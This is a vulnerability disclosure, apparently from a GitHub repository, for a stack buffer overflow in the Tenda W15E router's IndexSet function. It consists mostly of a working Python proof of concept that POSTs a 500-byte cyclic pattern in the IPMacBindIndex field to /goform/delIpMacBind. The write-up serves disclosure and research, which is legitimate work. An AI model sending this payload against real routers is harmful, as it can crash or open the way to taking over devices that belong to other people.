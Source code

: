 # W15E buff overflow vulnerability
 
Vendor: Tenda W15E  
Version: US_W15EV1.0br_V15.11.0.7(752_816)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x000690C8. IndexSet gets the content of IPMacBindIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows:
![image](image/1.png)

POC:
```py
import requests
from pwn import *

url='http://192.168.100.2/goform/delIpMacBind'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='IPMacBindIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```
The exploitation is as shown
![image](image/1-use.png)
